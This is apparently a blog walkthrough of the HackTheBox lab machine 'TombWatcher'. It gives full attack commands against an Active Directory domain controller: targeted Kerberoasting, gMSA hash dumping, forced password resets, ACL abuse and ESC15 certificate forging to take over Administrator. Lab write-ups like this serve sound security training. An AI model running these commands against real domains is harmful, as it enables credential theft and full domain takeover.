---
title: 'HTB-TombWatcher'
published: 2025-09-18
draft: false
toc: true
---
**Start 08:10 26-06-2025**

---
```
Scope:
10.10.11.72

Creds:
henry / H3nry_987TGV!
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -Pn -T5 --min-rate=5000 tomb

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-06-12 17:52:41Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-12T17:54:10+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
49712/tcp open  msrpc         syn-ack Microsoft Windows RPC
49727/tcp open  msrpc         syn-ack Microsoft Windows RPC
49742/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-12T17:53:30
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 20899/tcp): CLEAN (Timeout)
|   Check 2 (port 33382/tcp): CLEAN (Timeout)
|   Check 3 (port 61752/udp): CLEAN (Timeout)
|   Check 4 (port 60574/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 3h59m59s, deviation: 0s, median: 3h59m59s
```

## 445/TCP - SMB







I can't find anything interesting.

## BloodHound

I tried spraying the creds elsewhere but had no access so I decided to boot up `bloodhound`:



This way I want to find out whether there's any **kerberoastable** users, or anything else juicy for that matter.





I then started off by adding *henry* to my list of **owned** users:


I then used the **Shortest Path from Owned** cypher and got the following:



I found some new users:

```
alfred
sam
john
```




>[!note]
>This means we can get easy access as *alfred* by using the `targetedKerberoast.py` script and cracking the hash.

### Targeted Kerberoast

```bash
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' --request-user 'alfred' --dc-ip tombwatcher.htb > alfred.hash
```



This error popped up because the target and my machine were out of sync.

#### Clock Fix

In order to fix this I went ahead and used the following command to sync:



Afterwards the command ran fine:



### John

Time to use `john` to crack the hash.



```
alfred
basketball
```

One more set of creds to add to our spraying list.

>[!note]
>this yet again yielded no interesting entry point.

Time to check `bloodhound` again:





### Adding Alfred to INFRASTRUCTURE

We need to issue the following commands.

```bash
# Change group
bloodyAD -u 'alfred' -p 'basketball' -d 'tombwatcher.htb' --dc-ip 10.10.11.72 add groupMember 'INFRASTRUCTURE' alfred

# Verify change
net rpc group members "INFRASTRUCTURE" -U "tombwatcher.htb/Alfred"%"basketball" -S "DC01.tombwatcher.htb"
```



*alfred* has been successfully added and we can continue on down the chain.





I click on the link and download `gMSADumper.py` the script from the [github page](https://github.com/micahvandeusen/gMSADumper):



```bash
python3 gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'
```



And just like that I got the hash for *ansible_dev*.

### Force Change Password

Next in line is *sam*, and to get to them we need to do the following:




For this I will once again be using `bloodyAD`:

```bash
bloodyAD -u 'ansible_dev$' -p ':4b21348ca4a9edff9689cdf75cbda439' -d 'tombwatcher.htb' --host 10.10.11.72 set password 'sam' 'password123'
```



Now we can log into `winrm` with *sam*.

>[!fail]
>....or rather not?
>



It keeps hanging then fails, I guess we need to keep going down the chain.



For this vector there's multiple sorts of abuse, but I'll try out the **targeted kerberoast** first.



However that didn't work, let's enumerate the other options.



Password change didn't work either.

### User Takeover via ACL Abuse

Instead we'll have to use the following sequence of events in order to takeover *john*'s account by abusing the ACL privileges:

```bash
bloodyAD -u 'sam' -p 'password123' -d 'tombwatcher.htb' --host 10.10.11.72 set owner john sam                  

bloodyAD -u 'sam' -p 'password123' -d 'tombwatcher.htb' --host 10.10.11.72 add genericAll john sam                                                                                                                            bloodyAD -u 'sam' -p 'password123' -d 'tombwatcher.htb' --host 10.10.11.72 set password 'john' 'password123'
```



Now we can get on with logging in and getting the foothold!

# Foothold
## Evil-winrm as John



### user.txt



## Enumeration

Now it's time to further enumerate the machine:



No low hanging fruit.

`bloodhound` tells us the following, maybe we just need to finish following this chain.



I will now use the following command to enumerate previously deleted user accounts, specifically looking for any privileged users that were part of the **ADCS** (Active Directory Certificate Services) structure.

```powershell
Get-ADObject -Filter {isDeleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects -Properties samAccountName, objectSid, whenCreated, whenChanged, lastKnownParent | 
Select-Object Name, samAccountName, ObjectGUID, @{Name="SID";Expression={$_.objectSid}}, @{Name="Changed";Expression={$_.whenChanged}}, @{Name="LastKnown";Expression={$_.lastKnownParent}} | 
Format-Table -AutoSize -Wrap
```



>[!TLDR] Explanation
>I am hunting for a previously deleted **privileged user**, likely tied to **Certificate Services abuse** (ESC1/ESC6/etc.). If I can **restore** `cert_admin`, I might:
>- **Re-enable** a privileged user account
>- **Reuse known creds** (password or cert)
>- Abuse **enrollment rights** or **existing templates**

So what does the above tell us?

- There were **multiple instances** of a `cert_admin` account.
- All were deleted, but **the name and OU (ADCS)** suggest it had elevated privileges related to certificate services.
- If **ADCS misconfigurations exist**, this account might have left behind **orphaned certificates or enrollments** you can abuse.

# Privilege Escalation
## Restoring cert_admin

So we need to restore the last instance of the *cert_admin* account as follows, in order to leverage it and escalate privs.





Now that that is done we need to use `bloodyAD` again to set a new password for this account:



Not fully there yet however, we still cannot log into `winrm` with this user, since this is a **certificate service account** we need to use `certipy-ad` to find vulnerabilities that we can exploit.



This gives a lot of info, but the most important part is in the bottom:



According to the script the target is vulnerable to **ESC15**.

>[!note]
>More about this topic [here](https://abrictosecurity.com/esc15-the-evolution-of-adcs-attacks/)

## ESC15 Abuse
### Forging Administrator Cert 

Now we will use the following commands to forge new certificates and change the *Administrator* password:

```bash
certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'password123' -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'Administrator' -application-policies 'Client Authentication'

certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72

certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb -ldap-shell
```



Now we can go ahead and use the newly set creds to log into `evil-winrm` as *Administrator*:


### root.txt

